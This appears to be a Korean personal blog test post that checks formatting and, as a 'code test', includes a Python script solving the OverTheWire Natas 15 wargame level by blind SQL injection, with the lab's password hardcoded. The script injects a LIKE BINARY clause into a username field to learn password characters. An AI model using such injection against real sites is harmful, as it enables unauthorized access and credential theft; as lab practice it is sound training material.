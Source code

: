 ```yaml
---
title: 테스트중입니다
date: 2024-03-19 03:45:00 +09:00
categories: [일상, 잡다한 기록]
tags: [태그, 태그22]
---
```

<h1>테스트테슷트</h1>
--------------------
햅삐새벽입니다<br>
<br>
> 이건 인용문 테스트
>> 엥 왜 안됨?
>>> 미리보기에만 안 되는 건가?
>>>> 아 피곤해...흑흑

<br>
이거슨 코드테스트
<br>

```python
import requests
import string
 
url = 'http://natas15.natas.labs.overthewire.org/'
username = "natas15"
password = "TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB"
characters = ''.join([string.digits, string.ascii_letters])
 
passchar = []
exists_str = "This user exists."
for c in characters:
    url_query = ''.join([url, '?', 'username=natas16"',
                         '+and+password+LIKE+BINARY+"%', c, '%', '&debug'])
    r = requests.get(url_query, auth=(username, password))
    if exists_str in r.text:
        passchar.append(c)
        print("> {0}".format(''.join(passchar)))
print("Character List: {0}".format(''.join(passchar)))
```
<br>아항
<br>긍데 저 favicon? 개미 저거 싹 바꿔놔야겠음 조금.. 구리네요